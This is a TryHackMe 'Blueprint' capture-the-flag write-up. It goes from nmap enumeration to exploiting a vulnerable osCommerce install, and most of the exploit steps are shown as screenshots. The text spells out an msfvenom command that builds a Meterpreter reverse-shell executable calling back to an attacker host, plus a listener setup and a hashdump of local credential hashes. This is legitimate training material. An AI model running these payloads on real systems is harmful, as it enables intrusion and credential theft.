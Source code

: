 ```yaml
---
title: "TryHackMe - Blueprint"
author: Nasrallah
description: ""
date: 2022-05-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, metasploit, meterpreter, easy, msfvenom]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blueprint](https://tryhackme.com/room/blueprint) from [TryHackMe](https://tryhackme.com). It's an easy windows machine running a software program with a version vulnerable to remote code execution.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.230.235                                             
Host is up (0.28s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:              
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.           
|_http-server-header: Microsoft-IIS/7.5                                                                                                                       
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn:                 
|_  http/1.1                                                                   
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47 
|_Not valid after:  2019-11-08T23:48:47 
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49153/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-29T10:06:54
|_  start_date: 2022-05-29T09:57:47
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:b2:71:5d:06:29 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-29T11:06:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
```

We have a windows machine, running a webserver on port 80 and port 8080, SMB and mysql.

### Web

Let's navigate to the webpage on port 8080.

![](/assets/img/tryhackme/blueprint/1.png)

It's a directory, let's see what it holds.

![](/assets/img/tryhackme/blueprint/2.png)

We see oscommerce with what we assume to be a version number. Let's search for **oscommerce** and see what we can find.

![](/assets/img/tryhackme/blueprint/3.png)

OsCommerce is an online store management software program, and it is vulnerable to remote code execution in this exact version this machine is running.


## **Foothold**

Let's download the exploit and run it.

![](/assets/img/tryhackme/blueprint/4.png)

Great! We got command execution and with elevated privileges.

If we opened up metasploit, we can see that it also has a module for exploiting this service and even getting a reverse shell.

![](/assets/img/tryhackme/blueprint/5.png)

Let's set the necessary parameters up and run the module.

![](/assets/img/tryhackme/blueprint/6.png)

Now let's dump the hashes.

![](/assets/img/tryhackme/blueprint/7.png)

We can't do that because the current meterpreter we're using (php/meterpreter) is not supported. Let's upgrade to **windows/meterpreter*.


## **Shell Stabilization**

First, we need to create an executable using msfvenom with this command.`msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=1234 -f exe -o shell.exe`

![](/assets/img/tryhackme/blueprint/8.png)

Great. Now we need to setup a listener on metasploit. We use **exploit/multi/handler** for that, and set the options LPORT, LHOST and payload. After that we run the module in the background with `run -j`.
>Press `ctrl + z` to background meterpreter and then select the handler.

![](/assets/img/tryhackme/blueprint/9.png)

Great! Now let's get back to our meterpreter session, and upload the executable.

> You need to start metasploit from the same directory where we created the executable, or specify the full path of the executable:(/path/to/the/executable.exe)

![](/assets/img/tryhackme/blueprint/10.png)

We uploaded the file successfully, now let's run it with the command `execute -f shell.exe`.

![](/assets/img/tryhackme/blueprint/11.png)

Great! We got our session. Now background the old meterpreter session with `ctrl + z` and select the new one, in my case it's session 10: `sessions -i 10`.

Now we can run `hashdump` and get local users hashes.

![](/assets/img/tryhackme/blueprint/12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References
